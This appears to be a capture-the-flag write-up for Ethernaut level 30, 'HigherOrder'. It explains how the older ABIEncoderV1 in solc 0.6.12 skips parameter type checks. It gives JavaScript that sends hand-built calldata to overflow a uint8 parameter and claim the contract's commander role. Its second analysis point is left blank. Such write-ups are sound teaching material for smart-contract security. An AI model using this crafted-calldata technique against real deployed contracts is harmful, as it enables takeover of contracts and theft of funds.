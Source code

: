 [Level 30. HigherOrder](https://ethernaut.openzeppelin.com/level/30)

## In A Nutshell

> Before `solc` version `0.8.0`, `ABIEncoderV1` was used and it wouldn't revert when calldata was inconsistent with the parameter types.

## Concept

1. How to encode function call into calldata on our own.
2. Difference between `ABIEncoderV1` and `ABIEncoderV2`.

## Level Target

1. Become the `commander` of the `HigherOrder`.

## Breakdown & Analysis

1. The `solc` version used in this level is `0.6.12`, which means `ABIEncoderV1` is applied. As a result, it won't check for inconsistencies between calldata and parameter types.
2. 

## Detailed Steps

```js
const from = <your wallet address>;
const to = contract.address;
// 211c85ab -> function selector of registerTreasury(uint8); 000...100 -> parameter 256
const calldata = "0x211c85ab0000000000000000000000000000000000000000000000000000000000000100";

await ethereum.request({
    method: "eth_sendTransaction",
    params: [{
        from: from,
        to: to,
        data: calldata
    }]
})

await contract.treasury().then(v => v.toString()) // check if treasury is set to 256
await contract.claimLeadership();
```
